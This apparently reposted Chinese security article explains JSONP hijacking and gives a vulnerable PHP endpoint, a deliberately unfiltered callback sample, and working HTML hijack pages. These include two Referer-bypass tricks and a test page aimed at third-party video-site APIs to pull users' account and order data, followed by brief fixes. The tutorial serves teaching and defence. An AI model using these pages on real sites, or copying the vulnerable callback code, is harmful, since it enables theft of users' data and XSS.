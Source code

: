 #  浅谈JSONP劫持漏洞   
 Ots安全   2024-04-14 15:07  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad3uYaWy3tOJiaS8pSUTcg1QG6GCNUR3C9puRQRiafbOY9QM6wAhWibRqXAnJTib0uH7ib1ZaAibO8YSicOQ/640?wx_fmt=png&from=appmsg "")  
  
**JSONP**  
  
JSONP的全称是JSON with Padding，是一种基于JSON格式来解决跨域请求资源的方案。   
  
  
由于浏览器同源策略的限制，浏览器只允许XmlHttpRequest请求当前相同（域名、协议、端口）的资源，对请求脚本资源没有限制。  
  
  
原理：客户端通过请求脚本标签发送跨域请求，然后服务器输出JSON数据并执行回调函数。这种跨域数据输出方式称为JSONP。简单原理说明：使用<script></script>  
  
  
可能造成的危险   
- JSONP数据劫持   
  
- 没有过滤导致的回调xss  
  
**JSONP 劫持示例**  
```
# Server request address: http://aphp.test/jsonp/test_jsonp.php?callback=jsonCallback
<?php
header('Content-type: application/json');
$callback = htmlspecialchars($_REQUEST['callback']);
if (!isset($callback) || empty($callback)) {
    $callback = 'callback';
}
$data = array('username'=>'Pmeow-phpoop','email' => '3303003493@google.com');
$json = json_encode($data);
echo $callback."(".$json.")";
```  
```
# Client request address: http://127.0.0.1/jsonp/jsonp_test.html
<!DOCTYPE html>
<html lang='en'>
<head>
    <title>jsonp</title>
</head>
<body>
    jsonp hijack test
</body>
    <script>
        function jsonCallback(data){
            alert(JSON.stringify(data));
        }
</script>
    <script src="http://aphp.test/jsonp/test_jsonp.php?callback=jsonCallback"></script>
</html>
```  
  
**JSONP劫持绕过方法**  
  
**Referer过滤（常规）不严格**  
  
例如http://aphp.test/jsonp/test_jsonp.php？callback=jsonCallback 输出数据时，验证Referer  
  
  
但不幸的是，它只验证关键字 aphp.测试存在于 Referer 中。   
  
那么攻击者就可以构造url：http://127.0.0.1/aphp.test.html或者http://127.0.0.1/attack.htm？aphp.测试   
  
  
构造这样的url发起攻击绕过Referer防御   
  
**空引用绕过**  
  
有时候开发者在过滤的时候会允许Referer来源为空，因为正常情况下浏览器直接访问一个没有Referer的URL，所以我们有时候可以利用这个特性来绕过  
```
# Use the <meta> tag to implement an empty Referer
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta name="referrer" content="never" charset="utf-8">
    <title>jsonp without Referer</title>
</head>
<body>
    jsonp without Referer hijacking test
</body>
    <script>
        function jsonCallback(data){
            alert(JSON.stringify(data));
        }
</script>
    <script src="http://aphp.test/jsonp/test_jsonp.php?callback=jsonCallback"></script>
</html>
```  
```
# Use the <iframe> tag to call the javscript pseudo-protocol to implement an empty Referer call JSON file
<!DOCTYPE html>
<html lang='en'>
<head>
    <title>jsonp without Referer</title>
</head>
<body>
    jsonp without Referer hijacking test
</body>
    <iframe src="javascript:'<script>function jsonCallback(data){alert(JSON.stringify(data));}</script> <script src=http://aphp.test/jsonp/test_jsonp.php? callback=jsonCallback></script>'" frameborder="0"></iframe>
</html>
```  
  
**回调可以定义引起的安全问题**  
  
一般开发中，前端可以很方便调用，一般输出Callback都是可定制的，如果过滤不严格，或者Content-Type设置不合适，就会导致xss   
  
注意：严格来说，如果输出数据也是攻击者可控的话，也可能造成危害，但本文强调的是Callback的输出点   
  
测试一段代码如下  
```
<?php
$callback = $_REQUEST['callback'];
if (!isset($callback) || empty($callback)) {
    $callback = 'callback';
}
$data = array('username'=>'Pmeow-phpoop','email' => '3303003493@google.com');
$json = json_encode($data);
echo $callback."(".$json.")";
```  
  
**测试 HTML 代码**  
```
<!DOCTYPE html>
<html lang='en'>

<head>
    <meta name="referrer" content="never" charset="utf-8">
    <title>jsonp hijack</title>
</head>

<body>
    https://v.qq.com jsonp hijacking
</body>
    <!-- Hijacking the user's QQ number can be used for promotion -->
    <script>function jc(data){alert(JSON.stringify(data));}</script>
    <script src="http://node.video.google.com/x/api/get_2029?callback=jc&_=1542534620161"></script>
    
    <!-- Hijack the user's order data -->
    <script>function jc2(data){alert(JSON.stringify(data));}</script>
    <script src="http://like.video.google.com/fcgi-bin/flw_new?otype=json&sn=FollowServer&cmd=2562&pidx=0&size=30&dtype=0&type=0&callback=jc2&_=1542536629083"></script>
</html>
```  
  
**JSONP 修复**  
- 验证 HTTP Referer 标头信息。  
  
- 将 csrfToken 添加到请求中并在后端验证它。  
  
- JSON 格式的标准输出，Content-Type 设置为 (Content-Type : application/json; charset=utf-8)。  
  
- 严格过滤回调函数名和输出的JSON数据（防止xss）  
  
原文地址：  
  
https://tutorialboy24.blogspot.com/2023/07/talking-about-jsonp-hijacking.html  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
